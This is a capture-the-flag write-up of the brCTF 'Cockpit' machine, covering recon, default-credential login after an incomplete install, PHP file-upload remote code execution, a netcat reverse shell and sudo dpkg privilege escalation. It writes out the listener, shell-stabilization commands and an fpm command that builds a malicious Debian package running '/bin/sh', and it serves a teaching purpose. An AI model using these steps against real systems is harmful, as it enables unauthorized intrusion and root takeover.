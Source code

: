 ```yaml
---
title: Cockpit @ brCTF
date: 2024-12-26 11:33:00 +0800
categories: [CTF, brCTF ]
tags: [brCTF, linux, Unrestricted file upload, web ]
math: true
mermaid: true
media_subpath: /assets/posts/2024-12-26-cockpit
image:
  path: preview.png
---
```


## Cockpit - brCTF

## Information Gathering/Reconnaissance
As usual we fire up our favorite network mapper (nmap) and perform some basic recon. We can see that we have only port 80 (http) open.
`nmap -sC -sV -oN cockpit.nmap 10.0.160.145`
```
Nmap scan report for 10.0.160.145
Host is up (0.24s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-title: Cockpit
|_Requested resource was /auth/login?to=%2F

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second stage of our recon we checkout the application running on port `80` from our browser. <br>
We are greeted with a homepage.... interesting!
![Cockpit Homepage](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/homepage.png)

Next we try to find out what other pages are available on our target. We employ the servies of our directory bruteforcing tool (feroxbuster) or an other webfuzzer. <br>
`feroxbuster -u http://10.0.160.145 -w /raft-medium-wordlists.txt`
```
302      GET        0l        0w        0c http://10.0.160.145/ => http://10.0.160.145/auth/login?to=%2F
302      GET        0l        0w        0c http://10.0.160.145/system => http://10.0.160.145/auth/login?to=%2Fsystem
400      GET        7l       11w      157c http://10.0.160.145/!%22%C2%A3$%^
302      GET        0l        0w        0c http://10.0.160.145/?????? => http://10.0.160.145/auth/login?to=%2F%3F%253F%253F%253F%253F%253F%3D
400      GET        7l       11w      157c http://10.0.160.145/100%sexy
400      GET        7l       11w      157c http://10.0.160.145/100%angel
400      GET        7l       11w      157c http://10.0.160.145/100%bitch
400      GET        7l       11w      157c http://10.0.160.145/100%me
400      GET        7l       11w      157c http://10.0.160.145/100%cute
400      GET        7l       11w      157c http://10.0.160.145/100%love
400      GET        7l       11w      157c http://10.0.160.145/!%22%C2%A3$%^&*()
302      GET        0l        0w        0c http://10.0.160.145/content => http://10.0.160.145/auth/login?to=%2Fcontent
400      GET        7l       11w      157c http://10.0.160.145/100%cool
301      GET        7l       11w      169c http://10.0.160.145/install => http://10.0.160.145/install/
404      GET        0l        0w        0c http://10.0.160.145/austin101
```

## Exploitation
Something interesting the results above. We find a `/install` endpoint. <br>
After visiting this page in the browser we realized that the system administrator setup cockpit application without fully installing. Nice! we can abuse this. <br> After visiting this endpoint cockpit will be installed and will setup an account with default logins.
![Cockpit Install Page](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/install_the_software.png "a title")

Using the default logins obtained on installation we can login to the cockpit application.
![Cockpit Login Page](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/login_with_default_creds.png "a title")

Successful Login attempt and we a greeted with the application dashboard. From there we can do a little recon to find out the version of cockpit running. From the image below, `cockpit v2.4.0` is found to be running.
![Cockpit Dashboard Page](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/cockpit_version_info.png "a title")

As a hacker google should be one of your cherished tools. Using the google search engine we can search for publicly available exploit for `cockpit v2.4.0`. <br> We find a publicly disclosed exploitation process [here](https://huntr.dev/bounties/f73eef49-004f-4b3b-9717-90525e65ba61/).
![Public Exploit](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/google_vuln.png "a title")

From the steps provided on the [website](https://huntr.dev/bounties/f73eef49-004f-4b3b-9717-90525e65ba61/).
1. We must first craft our malicious php script.
![exploit code](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/exploit_code.png "a title")

2. Head over to the assest page on cockpit and upload our malicious php script.
![uploading asset](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/asset_upload.png "a title")
![uploading php script](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/uploading_php_script.png "a title")

3. Click on the options icons after fully uploding the asset and select `copy asset link` from the popup.
![uploading php script](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/asset_options.png "a title")

4. Open a new browser tab and paste the link there. Hold up! one last thing to do before execution. After pasting the link remove `/http:` from the url and now you can execute.

Finally! we now have RCE on the target and we can get a shell on netcat.<br>
We first start by running our netcat listener.
`nc -lnvp 8989`
![uploading php script](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/listening_on_netcat.png "a title")

Now we can send execute command on our malicious php web page to get a shell on our listener.<br>
![netcat payload shell](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/netcat_payload.png)

Boom we get a connection on our listener.
![netcat rev shell](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/recieved_nc_connection.png)

## Post Exploitation
Anytime we get a shell through netcat we obtain a dumb shell. A dump shell has very little functionality and therefore we need a stable shell. Shell Stabilization prevents you from killing your reverse shell and adds proper shell functionalities.

#### Shell stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>

## Privilege Escalation
We first check our privileges.
`sudo -l`
![PE vector](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/priv_escalation.png)

Doing a search on for dpkg on [gtfobins](https://gtfobins.github.io/gtfobins/dpkg/#sudo)
![gfobins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/gtfobins_privesc.png)

Now the way this is going to work is that we would build a malcious debian package and then we try installing the package which will run our malicious code embedded in the package.<br>
Steps to building malicious package.
1. Install fpm: `sudo apt install ruby && sudo gem install fpm`
2. Build package with fpm: ```TF=$(mktemp -d) &&
echo 'exec /bin/sh' > $TF/x.sh &&
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF```
![mal deb package](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/creating_mal_packgae.png)

We now have our malicious package on our host and we can now transfer to our target.<br>
Start your python server: `python3 -m http.server 8000`
![python transfer](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/python_server_for_mal_package.png)

Download the malicious package on your target.<br>
NB: Make sure you are in a writable directory like `/tmp`. <br>

![python transfer download](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/downloading_mal_package_from_attacker_server.png) 

Now we can execute and get root access.<br>
![execute code](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/exec_command_priv_root.png)<br>
We are now root!!! :smiley: <br>
![iamroot](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/i_am_root.png)